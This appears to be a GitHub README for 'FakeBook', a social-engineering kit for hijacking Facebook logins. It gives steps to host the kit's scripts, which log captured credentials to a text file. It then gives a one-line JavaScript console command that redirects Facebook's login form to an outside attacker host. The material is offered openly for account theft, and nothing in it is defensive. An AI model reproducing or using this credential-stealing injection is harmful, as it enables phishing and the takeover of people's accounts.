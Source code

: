# FakeBook - JavaScript inject0r
Hack Someone Facebook With JavaScript inject0r (Social Engineering)

Upload All the scripts from <strong>https://github.com/aghanathan/FakeBook</strong> into your Web Hosting (e.g. <b>'/public_html/FakeBook'</b>)
It Will Create a text file ('log.txt') (e.g. <b>http://gofreelancer.xyz/FakeBook/log.txt</b>)

<h3><u>How To Inject & use JavaScript to change the form action</u></h3>
<ul>
  <li>Open <strong>https://www.facebook.com</strong> with <b>Google Chrome</b> Browser</li>
  <li>Right-click on any page element and select <b>Inspect Element</b> and then <b>Console</b></li>
  <li>Copy & Paste (<b>Crtl+V</b>) of this a line Javascript:<br>
    <code>document.getElementById('login_form').action = 'http://gofreelancer.xyz/FakeBook/login.php';</code>
  </li>
</ul>

